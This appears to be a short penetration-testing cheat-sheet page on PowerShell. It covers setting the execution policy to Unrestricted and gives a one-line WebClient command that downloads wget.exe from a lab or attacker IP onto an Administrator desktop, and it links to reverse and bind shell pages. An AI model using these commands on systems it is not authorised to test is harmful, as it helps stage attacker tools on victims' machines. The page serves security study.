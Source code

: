 # PowerShell

## Enable PowerShell execution policy

* PowerShell maintains an execution policy that determines which type of PowerShell scripts (if any) can be run on the system.&#x20;
* The default policy is “Restricted”, which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts.
* To set an “Unrestricted” execution policy on our Windows client machine. Run Windows PowerShell application as Administrator.

```
PS C:\WINDOWS\system32> Set-ExecutionPolicy Unrestricted
PS C:\WINDOWS\system32> Get-ExecutionPolicy
```

![](https://lh4.googleusercontent.com/5eEcCVnnBLRd4iYiO9ze7W9ow-L\_EkITQKx0WQo3mPVeLasOK\_lj2QkoU84hf5M4mTVY1ePTk214edOgr2d\_EdpcXLwT1fRksnqihgTjFayRaPYbODWJtbKUfuI328\_f-a3tL8aa)

## File Transfers

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.189/wget.exe','C:\Users\Administrator\Desktop\wget.exe')"
```

Also see:

{% content-ref url="../../collections/file-transfer.md" %}
[file-transfer.md](../../collections/file-transfer.md)
{% endcontent-ref %}

## Reverse/Bind Shells

See the following:

{% content-ref url="../../collections/reverse-shell/powershell.md" %}
[powershell.md](../../collections/reverse-shell/powershell.md)
{% endcontent-ref %}

{% content-ref url="../../collections/bind-shell/powershell.md" %}
[powershell.md](../../collections/bind-shell/powershell.md)
{% endcontent-ref %}

